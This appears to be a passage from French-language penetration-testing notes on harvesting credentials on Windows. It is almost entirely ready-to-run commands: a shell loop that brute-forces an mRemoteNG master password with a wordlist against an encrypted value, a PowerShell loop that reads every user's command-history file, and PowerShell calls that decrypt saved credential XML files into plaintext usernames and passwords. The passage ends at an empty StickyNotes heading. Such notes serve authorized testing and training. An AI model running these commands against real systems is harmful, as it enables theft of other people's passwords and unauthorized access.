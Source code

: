 Si master password (ValueError: MAC check failed)-> for loop pour le bruteforce

```shell
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done
```

Si master password connu

```shell
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p <master_password>
```



## PowerShell History File
 
 Fichier d'historique : 
 
 - C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

1. Confirmer l'emplacement du fichier d'historique

```powershell
(Get-PSReadLineOption).HistorySavePath
```

2. Boucle foreach pour lire l'historique de chaque user

```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```


## PowerShell Credentials

Si creds importés depuis un autre fichier dans un script, possible de déchiffrer depuis la session de l'utilisateur (utilise DPAPI)

```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
```

```powershell
$credential.GetNetworkCredential().username
```

```powershell
$credential.GetNetworkCredential().password
```


## StickyNotes


Emplacement:

